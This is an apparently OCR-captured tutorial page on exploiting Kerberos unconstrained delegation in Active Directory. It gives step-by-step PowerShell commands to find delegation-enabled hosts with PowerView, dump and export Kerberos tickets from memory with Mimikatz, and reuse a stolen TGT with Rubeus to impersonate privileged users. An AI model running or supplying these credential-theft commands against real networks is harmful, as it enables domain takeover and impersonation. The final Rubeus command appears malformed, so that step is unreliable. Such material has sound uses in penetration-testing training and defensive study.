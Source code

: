 
### **Exploitation of Unconstrained Delegation**

#### **1. Finding Systems with Unconstrained Delegation using PowerView**

You can use **PowerView** to search for computers or services configured with unconstrained delegation in an Active Directory environment.

```powershell
# List all systems with Unconstrained Delegation enabled
Get-DomainComputer -Unconstrained
```

This command will return a list of computers in the domain that have unconstrained delegation enabled. These are potential targets for further exploitation.

#### **2. Stealing Tickets from Systems with Unconstrained Delegation**

When a user authenticates to a system with unconstrained delegation, their **TGT** is stored on the system. Attackers can dump these tickets and impersonate users on other services.

##### Example Attack Scenario:
- An attacker compromises a system with unconstrained delegation (e.g., via RDP or other methods).
- The attacker extracts the **TGT** of a privileged user (e.g., a Domain Admin) from memory using tools like **Mimikatz**.
- The attacker can then use the extracted **TGT** to impersonate the user on other network services.

##### Using **Mimikatz** to Dump Kerberos Tickets:

1. Dump the Kerberos tickets from the system:

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

2. Look for **TGT** tickets in the output. These tickets can be exported and used for impersonation.

##### Exporting the TGT:

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

This command exports the tickets to `.kirbi` files, which can be used with tools like **Rubeus** to re-use the TGT and impersonate the user.

#### **3. Using Rubeus to Request a TGT**

Once a TGT is stolen or dumped from a system, you can use **Rubeus** to import and use it to request service tickets or even execute actions as the target user.

##### Importing and Using the TGT with Rubeus:

```powershell
Rubeus.exe asktgt /ticket:<path-to-ticket>.kirbi /service:cifs /target:<target-system>
```
